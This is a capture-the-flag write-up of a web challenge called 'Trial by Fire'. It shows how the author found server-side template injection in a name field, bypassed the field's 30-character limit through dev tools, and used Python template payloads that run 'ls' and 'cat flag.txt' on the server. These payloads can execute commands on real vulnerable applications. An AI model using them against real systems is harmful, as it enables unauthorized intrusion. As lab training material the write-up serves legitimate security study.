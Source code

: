 # Challenge
Trial by Fire

As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategiAc mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

![](HTB%20Apocalypse/web/Trial%20by%20Fire/assets/Pasted%20image%2020250321224731.png)
In this challenge, we have a prompt based from this we can identify if its vulnerable to some kind of injections. I test several injection techniques, until I found a SSTI with this payload.
```
{{7*7}} //result will be 49
```
```
<input type="text" id="warrior_name" name="warrior_name" class="nes-input" required="" placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
```
Testing SST payloads from [ssti payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), but the thing is the input have character limits. Based from the source code its 30 characters max length.

To bypass this we can modify the html in dev tools, leave it as blank. Then inject our SSTi payload into name input to read the current directory of the system.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```


![](HTB%20Apocalypse/web/Trial%20by%20Fire/assets/Pasted%20image%2020250321224656.png)

We got the flag :)
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
![](HTB%20Apocalypse/web/Trial%20by%20Fire/assets/Pasted%20image%2020250321224956.png)

![](HTB%20Apocalypse/web/Trial%20by%20Fire/assets/Pasted%20image%2020250321224853.png)

![](HTB%20Apocalypse/web/Trial%20by%20Fire/assets/Pasted%20image%2020250321225037.png)